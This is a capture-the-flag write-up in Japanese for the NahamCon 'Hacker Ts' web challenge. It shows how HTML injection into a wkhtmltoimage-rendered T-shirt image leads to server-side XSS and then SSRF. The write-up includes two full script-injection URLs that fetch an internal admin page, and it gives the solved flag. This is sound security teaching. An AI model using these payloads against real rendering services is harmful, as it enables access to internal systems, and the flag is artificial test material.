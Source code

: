 # Hacker Ts:Web:422pts
We all love our hacker t-shirts. Make your own custom ones.  

**Connect with:** 
- [http://challenge.nahamcon.com:31242](http://challenge.nahamcon.com:31242/)  

# Solution
Tシャツ作成サイトのようだ。  
入力した文字列でTシャツ画像を表示できる。  
Hacker Ts  
[site1.png](site/site1.png)  
試しに`Satoki`を入力してみる。  
[site2.png](site/site2.png)  
URLは`http://challenge.nahamcon.com:31242/exploit?text=Satoki&color=%2324d600`であった。  
Adminページがあるが内部専用(localhost:5000)のようだ。  
[site3.png](site/site3.png)  
SSRFを狙う。  
ここで`<s>atoki`をTシャツの文字列として入力すると以下のようであった。  
![t1.png](images/t1.jpg)  
HTMLタグが生きている。  
scriptタグでページをgetできそうだと気づく。  
以下のURLで行う。  
GETした後、innerHTMLで画像として取得できるよう表示している。  
```
http://challenge.nahamcon.com:31242/exploit?text=<script>var xhr = new XMLHttpRequest();xhr.open("GET", "http://challenge.nahamcon.com:31242", true);xhr.onload = function () {document.documentElement.innerHTML = xhr.responseText;};xhr.send(null);</script>Satoki&color=%2324d600
```
![ssxss.png](images/ssxss.png)  
サーバーサイドでXSSができることが分かった。  
SSRFにつなげればよい。  
URLを`abc`などにするとwkhtmltoimageのエラーが起こったためオリジン制限は厳しくないと考えられる。  
あとは`http://127.0.0.1:5000/admin`をGETしてやればよい。  
```
http://challenge.nahamcon.com:31242/exploit?text=<script>var xhr = new XMLHttpRequest();xhr.open("GET", "http://127.0.0.1:5000/admin", true);xhr.onload = function () {document.documentElement.innerHTML = xhr.responseText;};xhr.send(null);</script>Satoki&color=%2324d600
```
flagが得られた。  
![flag.png](images/flag.png)  

## flag{461e2452088eb397b6138a5934af6231}